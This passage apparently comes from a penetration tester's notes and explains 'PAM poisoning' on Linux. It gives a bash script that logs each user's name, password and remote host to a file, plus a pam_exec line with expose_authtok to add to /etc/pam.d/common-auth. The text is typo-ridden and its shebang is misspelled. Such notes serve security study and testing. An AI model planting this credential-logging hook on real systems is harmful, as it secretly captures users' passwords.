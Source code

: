    <img src="/assets/img/NP-providers_result1.png">
</p>


---
## PAM Poisoning (Linux)
### Adding script to common-auth
One way to get credentials is following this [post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)

In this case we only have to create a script its stored the variable content in `$PAM_USER` and `$(cat -)`, this stored the passowrds

*Pluggable Authentication Modules* more knowlled as PAM, in linux, is used to manage the user authentication.
```#!/bin/bassh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/archivopassword.log
```

<p align="center">
   <img src="/assets/img/NP-script.png">
</p>

WIth `chmod +x` we give the execution permission to the filel. After this we change the file  `/etc/pam.d/common-auth`, adding this lines.
<br>
`auth optional pam_exec.so quiet expose_authtok RUTA_DEL_SCRIPT`
